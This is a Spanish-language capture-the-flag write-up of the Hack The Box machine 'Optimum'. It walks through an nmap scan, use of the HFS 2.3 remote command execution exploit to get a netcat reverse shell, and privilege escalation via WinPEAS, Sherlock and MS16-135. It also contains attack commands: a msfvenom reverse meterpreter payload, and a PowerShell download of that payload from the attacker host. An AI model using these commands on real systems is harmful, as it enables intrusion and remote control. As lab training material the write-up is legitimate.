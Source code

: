 ```yaml
---
title:  "Optimum - Hack The Box"
classes: wide
excerpt: 'Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.'
header:
  teaser: https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png
---
```


![styled-image](https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png){: .align-center style="width: 75%;"}

Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.

**Portscan**
```
sudo nmap -sC -sV -p- 10.10.10.8   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 11:57 CEST
Nmap scan report for 10.10.10.8
Host is up (0.054s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.59 seconds
```

<br>
**Web**

Accediendo al sitio web confirmamos la presencia del servicio HTTPFileServer que habíamos visto en el escaneo nmap.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/web.png){: .align-center}

Hemos utilizado searchsploit para detectar vulnerabilidades relacionadas con la versión actual.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)       | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

<br>
**Shell de Usuario**

Adicionalmente podemos realizar una busqueda en google tal como "HttpFileServer exploit" y nos apareceran otros tantos como por ejemplo <a href="https://www.exploit-db.com/exploits/49584">CVE-2014-6287</a>

Para poder ejecutar el script debemos de modificar el valor lhost y lport por nuestra IP local y el puerto a la escucha que vamos a usar para recibir la shell. Los valores rhost y rport corresponderan a la máquina víctima, en este caso:
```
lhost = "10.10.14.10"
lport = 4444
rhost = "10.10.10.8"
rport = 80
```

Para ejecutar el exploit simplemente realizaremos:
```
python3 hfs.py
```

En nuestro netcat a la escucha deberíamos obtener una shell.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49163

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

<br>
**Escalada de privilegios**

Para comenzar a enumerar posibles vectores de escalada de privilegios hemos ejecutado la herramienta <a href="https://github.com/peass-ng/PEASS-ng">WinPEAS</a>. Tras ejecutar la herramienta apreciamos información interesante como por ejemplo la credencial en texto plano del usuario kostas.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/user.png){: .align-center}

Algo de lo que deberíamos de darnos cuenta es de que la herramienta Watson no muestra ninguna salida al ejecutar WinPEAS.

Esto se debe a que la versión .NET del host no permite el uso de Watson (se necesita como mínimo la versión 4.5). Para comprobarlo podemos consultar los directorios de la siguiente ruta:

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/net.png){: .align-center}

Lo que debemos de hacer en casos como este es recurrir a su predecesor <a href="https://github.com/rasta-mouse/Sherlock">Sherlock</a>

En mi caso me econtre un error ya que la shell que nos ha propocionado el exploit de HttpFileServer no es lo suficientemente estable. Como bypass de este problema podemos generar una shell meterpreter desde nuestra máquina atacante.
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.14.10 LPORT=443 -f exe -o met.exe
```

Para compartir la shell podemos ejecutar un servidor http con python
```
python3 -m http.server 80
```

Aprovechando la shell PS que ya tenemos descargamos el payload del siguiente modo
```
iwr -uri http://10.10.14.10/met.exe -outfile met.exe
```

Por parte de nuestra máquina atacante a la escucha deberemos de utilizar el multi/handler de msfconsole y definir los siguientes parámetros.
```
set lhost <IP de nuestra máquina atacante>

set lport <puerto a la escucha de nuestra máquina atacante>

set payload windows/x64/meterpreter_reverse_https
```

Tras esto obtendremos una shell estable desde la cual podremos ejecutar la herramienta Sherlock. 

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/Sherlock.png){: .align-center}

Para explotar las vulnerabilidades encontradas he decidido utilizar el exploit MS16-135.
![image-left](https://haoxgit.github.io/haox/assets/images/optimum/exploit.png){: .align-center}

